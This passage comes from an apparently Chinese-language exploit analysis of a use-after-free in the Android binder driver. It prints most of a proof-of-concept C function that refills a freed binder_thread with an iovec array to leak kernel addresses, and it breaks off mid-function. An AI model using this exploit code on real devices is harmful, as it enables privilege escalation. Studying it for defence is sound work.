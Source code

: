 - 此时`prev`和`next`指向了`head`自身，而`head`本身又是位于我们申请的`binder_thread`内存中，所以p和n泄露出了`head`的地址，也就是`binder_thread`中`wait`成员的地址。

- 分析poc
```c
// size of struct binder_thread : 408Bytes = 0x198
#define BINDER_THREAD_SZ 0x190
// use struct iovec to refill the freed binder_thread
// size of struct iovec is 16Bytes (64bit system)
#define IOVEC_ARRAY_SZ (BINDER_THREAD_SZ / 16) //25

// offset of wait_queue in binder_thread
#define WAITQUEUE_OFFSET 0xA0

// finger out offset of wait_queue in iovec array
#define IOVEC_INDX_FOR_WQ (WAITQUEUE_OFFSET / 16) //10

void leak_task_struct(void)
{
  struct epoll_event event = { .events = EPOLLIN };
  if (epoll_ctl(epfd, EPOLL_CTL_ADD, binder_fd, &event)) err(1, "epoll_add");

  struct iovec iovec_array[IOVEC_ARRAY_SZ];
  memset(iovec_array, 0, sizeof(iovec_array));

  iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
  iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 0x1000; /* wq->task_list->next */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x1000;

  int b;
  int pipefd[2];
  if (pipe(pipefd)) err(1, "pipe");
  if (fcntl(pipefd[0], F_SETPIPE_SZ, 0x1000) != 0x1000) err(1, "pipe size");
  static char page_buffer[0x1000];
  //if (write(pipefd[1], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "fill pipe");

  pid_t fork_ret = fork();
  if (fork_ret == -1) err(1, "fork");
  if (fork_ret == 0){
    /* Child process */
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    sleep(2);
    printf("CHILD: Doing EPOLL_CTL_DEL.\n");
    epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
    printf("CHILD: Finished EPOLL_CTL_DEL.\n");
    // first page: dummy data
    if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
    close(pipefd[1]);
    printf("CHILD: Finished write to FIFO.\n");

    exit(0);
  }
  //printf("PARENT: Calling READV\n");
  ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
  b = writev(pipefd[1], iovec_array, IOVEC_ARRAY_SZ);
  printf("writev() returns 0x%x\n", (unsigned int)b);
  // second page: leaked data
  if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
  //hexdump_memory((unsigned char *)page_buffer, sizeof(page_buffer));
```